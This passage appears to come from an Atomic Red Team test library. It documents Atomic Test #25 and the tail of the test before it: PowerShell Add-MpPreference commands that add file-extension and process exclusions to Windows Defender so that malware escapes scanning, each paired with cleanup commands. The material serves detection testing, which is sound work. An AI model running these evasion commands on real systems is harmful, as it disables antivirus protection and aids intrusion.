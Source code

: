 **Supported Platforms:** Windows

**auto_generated_guid:** 315f4be6-2240-4552-b3e1-d1047f5eecea

#### Inputs:

| Name          | Description                                  | Type   | Default Value |
| ------------- | -------------------------------------------- | ------ | ------------- |
| excluded_exts | A list of extension to exclude from scanning | string | .exe          |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
$excludedExts= "#{excluded_exts}"
Add-MpPreference -ExclusionExtension  $excludedExts
```

#### Cleanup Commands:

```powershell
$excludedExts= "#{excluded_exts}"
Remove-MpPreference -ExclusionExtension  $excludedExts -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #25 - Tamper with Windows Defender Evade Scanning -Process

Malware can exclude specific processes from being scanned and evading detection.
Upon successful execution, the process(es) should be on the list of excluded processes.
To check the exclusion list using poweshell (Get-MpPreference).ExclusionProcess."

**Supported Platforms:** Windows

**auto_generated_guid:** a123ce6a-3916-45d6-ba9c-7d4081315c27

#### Inputs:

| Name             | Description                                  | Type   | Default Value |
| ---------------- | -------------------------------------------- | ------ | ------------- |
| excluded_process | A list of processes to exclude from scanning | string | outlook.exe   |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
$excludedProcess = "#{excluded_process}"
Add-MpPreference -ExclusionProcess $excludedProcess
```

#### Cleanup Commands:

```powershell
$excludedProcess = "#{excluded_process}"
Remove-MpPreference -ExclusionProcess  $excludedProcess
```
